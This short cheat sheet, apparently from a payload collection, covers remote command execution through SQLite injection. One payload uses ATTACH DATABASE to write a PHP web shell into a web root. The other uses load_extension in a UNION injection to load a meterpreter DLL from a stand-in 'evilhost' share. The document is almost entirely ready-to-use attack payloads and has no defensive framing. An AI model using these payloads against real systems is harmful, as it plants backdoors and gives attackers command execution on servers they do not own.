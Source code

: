 # SQLite

##Remote Command Execution using SQLite command - Attach Database
```
ATTACH DATABASE ‘/var/www/lol.php’ AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES (‘<?system($_GET[‘cmd’]); ?>’);--
```

##Remote Command Execution using SQLite command - Load_extension
```
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
Note: By default this component is disabled